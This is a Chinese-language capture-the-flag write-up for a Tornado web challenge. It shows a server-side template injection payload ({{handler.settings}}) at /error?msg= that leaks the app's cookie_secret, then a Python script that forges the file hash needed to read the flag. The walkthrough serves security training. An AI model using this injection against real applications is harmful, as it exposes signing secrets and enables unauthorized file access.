 ![alt text](image-13.png)



tornado是python中的一个web应用框架。

拿到题目发现有三个文件：



flag.txt

/flag.txt
flag in /fllllllllllllag
发现flag在/fllllllllllllag文件里；

welcome.txt

/welcome.txt
render
render是python中的一个渲染函数，渲染变量到模板中，即可以通过传递不同的参数形成不同的页面。

hints.txt

/hints.txt
md5(cookie_secret+md5(filename))
filehash=md5(cookie_secret+md5(filename))
现在filename=/fllllllllllllag，只需要知道cookie_secret的既能访问flag。

测试后发现还有一个error界面，格式为/error?msg=Error，怀疑存在服务端模板注入攻击 （SSTI）

尝试/error?msg={{datetime}}
在Tornado的前端页面模板中，datetime是指向python中datetime这个模块，Tornado提供了一些对象别名来快速访问对象，可以参考Tornado官方文档



通过查阅文档发现cookie_secret在Application对象settings属性中，还发现self.application.settings有一个别名

RequestHandler.settings
An alias for self.application.settings.
handler指向的处理当前这个页面的RequestHandler对象，
RequestHandler.settings指向self.application.settings，
因此handler.settings指向RequestHandler.application.settings。

构造payload获取cookie_secret

/error?msg={{handler.settings}}


'cookie_secret': 'M)Z.>}{O]lYIp(oW7$dc132uDaK<C%wqj@PA![VtR#geh9UHsbnL_+mT5N~J84*r'
计算filehash值:

import hashlib

def md5(s):
 md5 = hashlib.md5() 
 md5.update(s) 
 return md5.hexdigest()
 
def filehash():
 filename = '/fllllllllllllag'
 cookie_secret = 'M)Z.>}{O]lYIp(oW7$dc132uDaK<C%wqj@PA![VtR#geh9UHsbnL_+mT5N~J84*r'
 print(md5(cookie_secret+md5(filename)))
 
if __name__ == '__main__':
 filehash()
payload：

file?filename=/fllllllllllllag&filehash=md5(cookie_secret+md5(/fllllllllllllag))
成功获取flag。
![alt text](image-14.png)